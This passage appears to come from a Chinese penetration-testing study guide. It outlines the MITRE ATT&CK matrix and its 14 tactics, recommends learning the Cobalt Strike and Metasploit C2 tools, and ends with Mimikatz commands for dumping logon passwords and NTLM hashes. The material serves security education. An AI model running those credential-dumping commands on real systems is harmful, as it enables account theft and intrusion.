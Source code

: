 实战在渗透测试人员可以根据 `ATT&CK` 中的高频技术对需求方企业进行安全测试，形成安全方案，以加固企业的安全性；在红蓝对抗中，无论是蓝方还是红方都可以使用 `ATT&CK` 框架，红方可以进行网络钓鱼、水坑攻击等技术，蓝方可以利用框架中的技术提前对系统网站做审计和防护工作。

### 1.3 ATT&CK 攻击矩阵框架

-   矩阵横轴表示战术（有 14 项战术）、纵轴表示技术（177 项技术 348 项子技术）、中间包括程序。

| **序号** | **战术** | **战术功能** |
| --- | --- | --- |
| 1   | 侦察  | 攻击方收集信息，以便未来的行动。包含主动和被动地搜集侦察技术。此类信息一般包含受害者组织、基础设施或人员 |
| 2   | 资源开发 | 建立攻击者行动所需资源，包含基础设施、攻击人员创建、购买/窃取用于支持目标定位的资源技术。 |
| 3   | 初始访问 | 攻击方试图进入目标网络，获取一个入口 |
| 4   | 执行  | 运行恶意代码 |
| 5   | 持久化 | 保持攻击立足点，获得永久的控制能力 |
| 6   | 权限提升 | 获取最高权限 |
| 7   | 防御绕过 | 避免被发现 |
| 8   | 凭证获取 | 窃取账号、密码、凭证等 |
| 9   | 发现  | 弄清对方网络环境 |
| 10  | 横向移动 | 内网漫游，攻击其他网络 |
| 11  | 搜集  | 收集感兴趣的数据 |
| 12  | 命令控制 | 试图与目标网络通信，操纵目标系统和网络 |
| 13  | 数据渗出 | 窃取数据并输出 |
| 14  | 影响  | 中断和破坏对手网络和数据，给对方网络造成伤害 |

参考：[https://blog.csdn.net/qq\_40216188/article/details/123106969](https://blog.csdn.net/qq_40216188/article/details/123106969)  
[https://attack.mitre.org/](https://attack.mitre.org/)  
【工具基础】：把 cobalt strike，msf 这两个 c2 工具玩熟

要求：能知道 c2 是什么意思，学会如何上线目标机器，以及如何用 shellcode 上线

# 内网渗透神器（Mimikatz）

【工具基础】：学会用 mimikatz 的使用，重点是如何用 mimikatz 抓密码。

```plain
mimikatz # log
mimikatz # privilege::debug
mimikatz # sekurlsa::logonpasswords
```

直接获取 NTLM  